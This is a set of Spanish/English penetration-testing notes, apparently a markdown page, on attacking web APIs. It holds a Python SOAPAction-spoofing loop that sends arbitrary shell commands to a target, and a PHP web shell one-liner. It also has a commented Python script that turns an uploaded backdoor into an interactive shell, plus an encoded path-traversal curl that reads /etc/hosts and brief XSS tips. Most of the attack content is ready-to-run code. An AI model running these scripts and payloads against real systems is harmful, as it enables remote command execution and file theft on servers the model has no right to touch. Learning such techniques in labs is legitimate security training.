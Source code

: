 


### WSDL

Los WSDL son xmls que informan de los metodos disponibilizados, la forma de llamarlos y dónde residen


### SOAP

#### Soap Action Spoofing
SOAP messages towards a SOAP service should include both the operation and the related parameters. 
This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed 
to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify 
the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to 
SOAPAction spoofing.

ejemplo de soapaction spoofin:

        import requests

        while True:
            cmd = input("$ ")
            payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
            print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


#### Information disclosure

Tenemos que invertir mucho tiempo en fuzzig cuando testeamos una api.
Si la api manifiesta una versión como "v2", siempre vale la pena probar versiones anteriores que pueden quedar como shadow


### Arbitrary file inclusion.
si logramos subir una shell:

                <?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

pero no logramos explotarla desde el servidor, podemos atacar a la api que utiliza. La ubicación de la misma estará en las request del
navegador.

un código simple en python para aprovechar esta shell y transformarla en una más interactiva:

                import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
                parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
                parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
                parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
                parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
                args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
                if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
                    parser.print_help() # shows help menu
                elif args.target and args.payload: # elif (if they both have values do some action)
                    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
                if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
                    os.system("clear") # clear the screen (linux)
                    while True: # starts a while loop (never ending loop)
                        try: # try statement
                            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
                            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
                            time.sleep(0.3) # waits 0.3 seconds during each request
                        except requests.exceptions.InvalidSchema: # error handling
                            print("Invalid URL Schema: http:// or https://")
                        except requests.exceptions.ConnectionError: # error handling
                            print("URL is invalid")
                


##### Run:
                python shell.py -t url/path-to-file/file.php -o yes

#### FIle inclusion:
cuando vemos que un endpoint nos permite buscar o presentar archivos (ej downloads) siempre es un buen momento para probar una LFI:


                curl "http://<TARGET_IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"

                
siempre se recomienda encodear el payload.

#### XSS

Si vemos que los valores introducidos en la url del endpoint se reflejan en la página siempre es un buen momento para probar XSS.
P.D.: Siempre encodear una vez.

